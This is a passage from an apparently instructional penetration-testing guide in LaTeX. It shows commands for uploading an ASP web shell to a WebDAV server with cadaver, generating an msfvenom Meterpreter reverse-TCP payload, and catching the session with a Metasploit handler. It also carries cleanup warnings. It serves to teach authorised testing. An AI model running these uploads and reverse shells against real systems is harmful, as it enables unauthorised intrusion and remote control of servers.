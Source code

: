 \begin{notebox}
\begin{termbox}
# Kali has built-in web shells
ls -al /usr/share/webshells/

# Upload the ASP web shell
cadaver http://target_ip/webdav/
# Inside cadaver:
put /usr/share/webshells/asp/webshell.asp

# Then access in browser:
# http://target_ip/webdav/webshell.asp
# Execute commands directly from the browser
\end{termbox}



\begin{warnbox}
Always delete uploaded shells after the engagement:
\end{warnbox}

\begin{termbox}
cadaver http://target_ip/webdav/
delete shell.asp
\end{termbox}

\begin{warnbox}
Leaving web shells on production servers is a serious security risk and is
unprofessional. Always clean up every artefact.
\end{warnbox}

\subsection{Custom Meterpreter Payload via WebDAV}

Instead of a web shell, a Meterpreter payload gives a full reverse shell with
post-exploitation capabilities.

\begin{termbox}
# Generate custom ASP Meterpreter payload
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=my_kali_ip \
  LPORT=1234 \
  -f asp > shell.asp

# Upload via Cadaver
cadaver http://target_ip/webdav/
put /root/shell.asp

# Set up Metasploit listener BEFORE triggering the payload
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST my_kali_ip
set LPORT 1234
run

# Trigger payload by visiting in browser:
# http://target_ip/webdav/shell.asp
# Meterpreter session opens in Metasploit
\end{termbox}


\end{notebox}
